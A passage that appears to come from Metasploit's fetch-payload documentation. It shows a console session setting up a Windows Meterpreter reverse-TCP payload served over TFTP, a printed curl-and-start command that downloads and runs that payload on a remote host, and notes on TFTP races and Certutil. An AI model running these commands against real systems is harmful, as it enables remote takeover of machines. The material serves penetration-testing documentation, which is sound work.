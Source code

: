 ```msf
[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:4445 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444
  4   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4445

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set FETCH_URIPATH test4
FETCH_URIPATH => test4
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 8547
LPORT => 8547
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so DOjmRoCOSMn.exe tftp://10.5.135.201:8080/test4 & start /B DOjmRoCOSMn.exe
[*] Payload Handler Started as Job 5

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:8547 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          

```
There is nothing to stop you from creating a race condition by starting multiple tftp servers with the same IP, port,
and `FETCH_URI` value but serving different payloads.  This will result in a race condition where the payload served is
non-deterministic.


### Windows Only
#### `Certutil`
Certutil is a great choice for Windows targets- it is likely to be present on most recent releases of Windows and is 
highly configurable.  The one troublesome aspect is that there is no insecure mode for Certutil, so if you are using
Certutil with the HTTPS protocol, the certificate must be correct and checked.  It supports `HTTP` and `HTTPS`
protocols.
